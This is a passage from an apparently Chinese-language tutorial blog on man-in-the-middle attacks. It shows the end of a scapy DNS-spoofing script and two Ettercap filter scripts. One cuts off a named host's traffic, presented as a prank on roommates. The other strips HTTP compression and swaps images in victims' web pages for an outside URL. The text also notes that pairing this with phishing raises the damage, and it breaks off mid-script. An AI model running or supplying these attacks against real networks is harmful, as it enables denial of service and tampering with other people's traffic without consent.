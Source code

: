 ```bash
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

　　**Ettercap的包过滤：**

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　![img](../../../../#ImageAssets/270035332621747-1573358989635.png)

　　在该目录下的etter.filter.examples文件里写了一些常用的过滤脚本:

　　![img](../../../../#ImageAssets/270040148247495-1573358989635.png)

　　当然,更多使用说明可以查看一下man 手册: man etterfilter.里面对所有的过滤使用的函数都有详细的说明.下面举例:

　　(1)  kill掉某一主机:

　　当你在心致勃勃地看片的时候,后面几个2b正在猛LOL,搞得看片跟看PPT一样,这个时候你是不是很不爽?是不是想揍他们一顿?好吧.我只想做一个安静的美男子,是时候kill他们了. 使用的过滤脚本为etter.filter.kill,如下:



```bash
 if (ip.src == '10.0.0.16') {
      # sent the RST to both source and dest
      kill();
      # don't even forward the packet
      drop();
      msg("HaHa! a 2b(ip:10.0.0.16) has killed...\n");
 }
```



　　编译成ettercap可以识别的二进制的二进制文件:

　　![img](../../../../#ImageAssets/270059583712014-1573358989636.png)

　　使用ettercap加载此脚本(-q 安静模式,即不显示数据包信息):

　　![img](../../../../#ImageAssets/270103310909127-1573358989636.png)

　　可以看到执行的效果:

　　![img](../../../../#ImageAssets/270105101064311-1573358989636.png)

　　(2) 替换网页的图片:

　　貌似上面的恶搞还不爽,那就把他浏览网页时的图片换掉试试,使用的脚本是etter.filter.images,如下:



```bash
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   msg("Filter Ran.\n");
```